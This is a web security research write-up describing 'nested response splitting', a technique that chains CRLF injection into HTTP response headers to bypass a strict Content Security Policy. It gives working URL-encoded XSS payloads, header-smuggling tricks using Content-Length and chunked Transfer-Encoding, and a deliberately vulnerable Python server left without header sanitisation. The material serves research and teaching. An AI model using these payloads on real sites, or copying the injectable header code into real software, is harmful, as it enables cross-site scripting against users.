








# CRLF Injection Nested Response Splitting CSP Gadget

> This research is also published in [CTBB Lab](https://lab.ctbb.show/research/crlf-injection-nested-response-splitting-csp-gadget)!

If you can do CRLF injection in the response header, most likely you can also inject 2 CRLF (Carriage Return `\r`, Line Feed `\n`) characters. If so, it is very likely that you can achieve reflected XSS by injecting HTML code into the response body data. Even if a strict CSP (Content Security Policy) is in place and `script-src` directive is set to [`'self'`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy#self), it is possible to bypass the CSP by using response splitting as a CSP gadget. I coined this trick as "Nested Response Splitting":

```
default-src 'none'; script-src 'self';
```

In the following example web application, it allows users to view static files and able to control the `Content-Type` of the file using GET parameter `type`. The value of parameter `type` is not validated or sanitized, which is vulnerable to CRLF injection:







> Note: The source code of the web application can be seen in "[Appendix 1](#appendix-1-example-web-applications-source-code)".

However, if we do response splitting and inject a `<script>` tag, the CSP will block its execution, because directive `script-src`'s source is set to `'self'`, which means only sources that are from the same origin can be loaded. The directive also doesn't have source [`'unsafe-inline'`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy#unsafe-inline).

Inline script:

```
/static/css/main.css?type=text/html%0d%0a%0d%0a%3Cscript%3Ealert(origin)%3C/script%3E
```



Load external script:

```
/static/css/main.css?type=text/html%0d%0a%0d%0a%3Cscript%20src=%22http://example.com/foo.js%22%3E%3C/script%3E
```



If we try to use the response splitting as a CSP gadget (Nested response splitting), we'll get invalid JavaScript syntax because of the original response body data:

```
/static/css/main.css?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css%3ftype%3dtext/javascript%250d%250a%250d%250aalert(origin)%22%3E%3C/script%3E
```

Injected response body data:

```html
<script src="/static/css/main.css?type=text/javascript%0d%0a%0d%0aalert(origin)"></script>
```



Fortunately, we can truncate the invalid syntax with different tricks!

## Missing `Content-Length` Response Header

If, for some reason, the response header doesn't have `Content-Length` header, we can simply inject it into the response:

```
/static/css/main.css?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css?type=text/javascript%250d%250aContent-Length:%252013%250d%250a%250d%250aalert(origin)%22%3E%3C/script%3E
```

Nested response splitting's response:

```http
HTTP/1.0 200 OK
Content-Security-Policy: default-src 'none'; script-src 'self';
Content-Type: text/javascript
Content-Length: 13

alert(origin)
```





## Able to Control `Content-Length` Response Header (Very Rare)

If response header `Content-Length` is in above of injection point and its value can be controlled, ([Appendix 2](#appendix-2-code-snippet-for-controlling-content-length-response-headers-value)), we can just change its value to the length of our JavaScript payload:

```
/static/markdown/example.md?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css?type=text/javascript%250d%250a%250d%250aalert(origin)%26length=13%22%3E%3C/script%3E
```

Injected response body data:

```html
<script src="/static/css/main.css?type=text/javascript%0d%0a%0d%0aalert(origin)&length=13"></script>
```

## HTTP/1.1 Trick: `Transfer-Encoding` With `chunked` Encoding

If the web application or server uses **HTTP/1.1** ([Appendix 3](#appendix-3-code-snippet-for-transfer-encoding-trick-in-http11)), we can override the `Content-Length` response header by injecting `Transfer-Encoding` header with `chunked` encoding.

> Note: For more information about `Transfer-Encoding` header with `chunked` encoding, you could read [this PortSwigger web security academy about request smuggling](https://portswigger.net/web-security/request-smuggling#how-do-http-request-smuggling-vulnerabilities-arise).

As per the [HTTP/1.1 specification](https://www.rfc-editor.org/rfc/rfc9112#section-6.1-14), response header `Transfer-Encoding` will override `Content-Length` header:
> Early implementations of Transfer-Encoding would occasionally send both a chunked transfer coding for message framing and an estimated Content-Length header field for use by progress bars. **This is why Transfer-Encoding is defined as overriding Content-Length, as opposed to them being mutually incompatible.**
>   
> [...]
>   
> A server MAY reject a request that contains both Content-Length and Transfer-Encoding **or process such a request in accordance with the Transfer-Encoding alone.**

```
/static/markdown/example.md?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css?type=text/javascript%250d%250aTransfer-Encoding%3a%2520chunked%250d%250a%250d%250ad%250d%250aalert(origin)%250d%250a0%250d%250a%250d%250a%22%3E%3C/script%3E
```

Nested response splitting's response:

```http
HTTP/1.1 200 OK
Content-Security-Policy: default-src 'none'; script-src 'self';
Content-Length: 180
Content-Type: text/javascript
Transfer-Encoding: chunked

d
alert(origin)
0

<junk_text_here>
```

In here, the first chunk will be `alert(origin)` with the length of `0xd` (13 in decimal). After that, we terminate the rest of the response data with `0x0` length chunk.

Browser parsed response:

```http
HTTP/1.1 200 OK
Content-Security-Policy: default-src 'none'; script-src 'self';
Content-Length: 13
Content-Type: text/javascript

alert(origin)
```

## Fixed `Content-Length` Response Header Value (The Most Generic Approach)

In most cases, the `Content-Length` header's value is calculated based on **the length of the original response body data**. In the example web application ([Appendix 4](#appendix-4-code-snippet-for-fixed-content-length-response-header-value)), static route `/static/markdown/example.md` will return `Content-Length` value `180`, because the Markdown code is `180` characters long.

Therefore, we can leverage the fixed `Content-Length` value to truncate the invalid JavaScript syntax by appending junk text, so that the length of the injected response body is greater than the fixed `Content-Length` value:

```
/static/markdown/example.md?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css%3ftype%3dtext/javascript%250d%250a%250d%250aalert(origin)//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%22%3E%3C/script%3E
```

- Route `/static/markdown/example.md` fixed `Content-Length` value: `180`
- Route `/static/css/main.css` fixed `Content-Length` value: `98`

Injected response body data: (Append `98 - 15 = 83` junk text)

```html
<script src="/static/css/main.css?type=text/javascript%0d%0a%0d%0aalert(origin)//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"></script>
```

Nested response splitting's response:

```http
HTTP/1.0 200 OK
Content-Security-Policy: default-src 'none'; script-src 'self';
Content-Length: 98
Content-Type: text/javascript

alert(origin)//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## Extra: Append Response Headers Only

In the case of you can't really inject 2 CRLF characters to perform response splitting, you could try to inject additional response headers. Below is some headers that may be useful. (*Not tested*)

- [`Referrer-Policy`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referrer-Policy): Leak `Referer` request header with value [`unsafe-url`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referrer-Policy#unsafe-url_2). Maybe useful for leaking OAuth token or sensitive data in the URL
- [`Refresh`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Refresh): Same as [`<meta>` tag redirect](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/meta#setting_a_page_redirect). Maybe can be chained with `Referrer-Policy`
- [`Cache-Control`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Cache-Control) and other cache-related headers, such as `X-Cache: HIT`: Maybe useful for CRLF injection to cache poisoning, cache deception, or even browser cache related trick (Disk cache, bfcache)
- [`Connection: Keep-Alive`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Connection): Make the HTTP connection persistent. Maybe useful for chaining with SSRF. Example: [Oracle E-Business Suite Pre-Auth RCE Chain - CVE-2025-61882](https://labs.watchtowr.com/well-well-well-its-another-day-oracle-e-business-suite-pre-auth-rce-chain-cve-2025-61882well-well-well-its-another-day-oracle-e-business-suite-pre-auth-rce-chain-cve-2025-61882/#stage-2-carriage-returnline-feed-crlf-injection)
- `X-Correlation` (i.e.: `X-Request-ID`) headers: If injected, may be load balancers or reverse proxies would handle the injected header. Example: [X-Correlation-Injections (or How to break server-side context)](https://speakerdeck.com/fransrosen/x-correlation-injections-or-how-to-break-server-side-contexts)

## Appendix 1: Example Web Application's Source Code

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from http import HTTPStatus
from urllib.parse import urlparse, parse_qs

STATIC_FILE_ROUTES = {
    '/static/markdown/example.md': {
        'content': b'# Heading 1\n## Heading 2\n### Heading 3\n**Bold text** and *italic text*\n- Unordered list item 1\n- Unordered list item 2\n  - Nested item\n1. Ordered list item 1\n2. Ordered list item 2',
        'mime': 'text/markdown'
    },
    '/static/css/main.css': {
        'content': b'body {\nfont-family: Arial, sans-serif;\nline-height: 1.6;\nbackground-color: #f4f4f4;\ncolor: #333;\n}',
        'mime': 'text/css'
    }
}

class CustomHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        parsedPath = urlparse(self.path)
        query = parse_qs(parsedPath.query)

        if (route := STATIC_FILE_ROUTES.get(parsedPath.path)) is None:
            self.send_response(HTTPStatus.NOT_FOUND)
            self.end_headers()
            self.wfile.write(b'404 Not Found')
            return
        
        contentType = query.get('type', [ route.get('mime', 'text/plain') ])[0]
        self.send_response(HTTPStatus.OK)
        self.send_header('Content-Security-Policy', 'default-src \'none\'; script-src \'self\';')
        self.send_header('Content-Type', contentType)
        self.end_headers()
        self.wfile.write(route.get('content', b''))

if __name__ == '__main__':
    server_address = ('', 8000)
    httpd = HTTPServer(server_address, CustomHandler)
    print('[*] Serving HTTP server on port 8000...')
    httpd.serve_forever()
```

## Appendix 2: Code Snippet for Controlling `Content-Length` Response Header's Value

```python
class CustomHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        [...]
        contentType = query.get('type', [ route.get('mime', 'text/plain') ])[0]
        contentLength = query.get('length', [ str(len(route.get('content', ''))) ])[0].replace('\r', '').replace('\n', '')
        self.send_response(HTTPStatus.OK)
        self.send_header('Content-Security-Policy', 'default-src \'none\'; script-src \'self\';')
        self.send_header('Content-Length', contentLength)
        self.send_header('Content-Type', contentType)
        self.end_headers()
        self.wfile.write(route.get('content', b''))
```

## Appendix 3: Code Snippet for `Transfer-Encoding` Trick in HTTP/1.1

```python
class CustomHandler(SimpleHTTPRequestHandler):
    protocol_version = 'HTTP/1.1'

    def do_GET(self):
        [...]
        contentType = query.get('type', [ route.get('mime', 'text/plain') ])[0]
        self.send_response(HTTPStatus.OK)
        self.send_header('Content-Security-Policy', 'default-src \'none\'; script-src \'self\';')
        self.send_header('Content-Length', str(len(route.get('content', ''))))
        self.send_header('Content-Type', contentType)
        self.end_headers()
        self.wfile.write(route.get('content', b''))
```

## Appendix 4: Code Snippet for Fixed `Content-Length` Response Header Value

```python
class CustomHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        [...]
        contentType = query.get('type', [ route.get('mime', 'text/plain') ])[0]
        self.send_response(HTTPStatus.OK)
        self.send_header('Content-Security-Policy', 'default-src \'none\'; script-src \'self\';')
        self.send_header('Content-Length', str(len(route.get('content', ''))))
        self.send_header('Content-Type', contentType)
        self.end_headers()
        self.wfile.write(route.get('content', b''))
```